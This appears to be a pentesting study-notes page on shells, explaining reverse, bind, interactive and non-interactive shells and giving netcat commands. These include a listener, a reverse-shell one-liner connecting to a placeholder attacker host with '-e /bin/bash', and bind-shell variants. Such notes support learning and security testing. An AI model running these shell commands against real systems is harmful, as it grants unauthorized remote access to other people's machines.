 # Shells
## Reverse Shells
Reverse shells are when the target is forced to execute code that connects back to our computer. On our own computer we would set up a listener which would be used to receive the connection. They are a good way to bypass firewall rules that may prevent us from connecting to arbitrary posts on the target, however, when receiving a shell from a machine across the internet, we would need to configure our own network to accept the shell. 

## Bind Shells
Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet meaning we can connect to the port that the code has opened and obtain RCE. This has the advantage of not requiring any configuration on our own network, but may be prevented by firewalls protecting the target.

## Interactive
These type of shells allow us to interact with programs after executing them, an example of this is the prompt that [[SSH]] gives us after entering the command, with interactive shells we will receive the prompt and are allowed to interact with it as if it were a normal CLI environment.

## Non-Interactive
Contrary to interactive shells, these shells do not allow programs that require user interaction in order to run, when running commands like [[SSH]], nano, etc. the prompt will no appear in our shell, but commands like cat or whoami work fine.

# Tools
## Netcat
[[Netcat]] is the most basic tool when it comes to any kind of networking. 

### Reverse
To set up a reverse shell we can start by creating a listener in our machine with the following syntax
```sh
nc -nlvp PORT
```
this will make it so netcat does not resolves hosts names or uses DNS, is a listener, uses verbose and sets it to a specified port.
We then can connect to this with any number of payloads depending on the environment on the target, like (for linux)
```
nc ATTACK_IP PORT -e /bin/bash
```
For us to gain RCE

### Bind
To use a Bind shell we need to first establish a listener on the target waiting for us to connect to it, depending on the environment this can also be accomplished with netcat with a basic listener and adding either `-e "cmd.exe"`
for windows or `-e /bin/bash` for linux. 
Then we can connect to it with
```sh
nc TARGET PORT
```
